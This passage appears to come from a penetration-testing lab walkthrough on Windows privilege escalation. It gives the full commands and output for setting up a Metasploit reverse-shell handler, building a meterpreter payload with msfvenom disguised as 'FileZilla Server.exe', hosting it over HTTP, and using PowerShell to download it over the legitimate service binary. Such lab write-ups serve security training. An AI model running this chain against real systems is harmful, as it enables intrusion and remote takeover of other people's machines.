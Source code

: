 ```
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Open Metasploit and set up a handler to catch the reverse shell connection._

`msfconsole -q`

`search multi/handler`, `use exploit/multi/handler`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.39.3`, `set LPORT 4444`, `show advanced`, `set InitialAutoRunScript post/windows/manage/migrate`, `exploit -j`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.39.3:4444 ←
```

**Explanation:** Metasploit is configured to handle the incoming reverse shell connection on port `4444`. The `InitialAutoRunScript` option is set to automatically migrate the session to a more stable process once the connection is established.

_Create a malicious executable using `msfvenom` and host it on a simple HTTP server._

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.39.3 LPORT=4444 -f exe -o '/root/Desktop/FileZilla Server.exe'`:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /root/Desktop/FileZilla Server.exe ←
```

**Explanation:** The `msfvenom` command generates a malicious payload wrapped in an executable that will provide a reverse shell to the attacker's machine. This executable is named `FileZilla Server.exe` to replace the legitimate service binary on the target machine.

_Change to the directory where the malicious executable is saved and start an HTTP server to host it._

`cd /root/Desktop`

`python3 -m http.server 80`

**Explanation:** A Python HTTP server is used to host the malicious executable, allowing it to be downloaded directly onto the target machine.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Download the malicious executable and replace the legitimate FileZilla Server executable._

`iwr -UseBasicParsing -Uri 'http://10.10.39.3/FileZilla Server.exe' -OutFile 'C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe'`

**Explanation:** The `iwr` (Invoke-WebRequest) command downloads the malicious executable from the attacker's machine and replaces the legitimate FileZilla Server executable with it.
